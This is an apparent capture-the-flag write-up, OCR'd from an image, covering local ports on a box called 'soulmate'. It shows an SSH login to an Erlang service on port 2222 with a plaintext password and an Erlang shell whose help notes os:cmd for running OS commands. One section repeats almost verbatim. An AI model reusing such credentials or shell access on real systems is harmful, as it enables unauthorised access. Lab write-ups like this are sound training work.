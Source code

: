 ```
<SNIP>
tcp    LISTEN  0   4096   127.0.0.1:8443    0.0.0.0:*
tcp    LISTEN  0   5      127.0.0.1:2222    0.0.0.0:*
tcp    LISTEN  0   4096   127.0.0.1:9090    0.0.0.0:*
<SNIP>
```

- Erlang/SSH service listening on port 2222.

---

### Erlang Service Exploit
- Connection via `nc 127.0.0.1 2222` shows protocol error.
- SSH connection to Erlang service:

```shell
ssh 127.0.0.1 -p 2222
Password: HouseH0ldings998
```

---

### Erlang Service Exploit
- Connection via `nc 127.0.0.1 2222` shows protocol error, indicating the service expects SSH protocol.
- SSH connection to Erlang service using Ben's credentials:

```shell
ssh 127.0.0.1 -p 2222
Password: HouseH0ldings998
```

**Erlang Shell Access:**
```erlang
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

**Exploring Shell Capabilities:**
```erlang
(ssh_runner@soulmate)1> help().

** shell internal commands **
b()        -- display all variable bindings
e(N)       -- repeat the expression in query <N>
f()        -- forget all variable bindings
<SNIP>
os:cmd(Command) -- execute Command in OS shell
<SNIP>

```

**Listing Loaded Modules:**
```erlang
(ssh_runner@soulmate)2> m().
Module                File
application           /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/application.beam
application_controller /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/application_controller.beam
<SNIP>
os                    /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam
<SNIP>
```
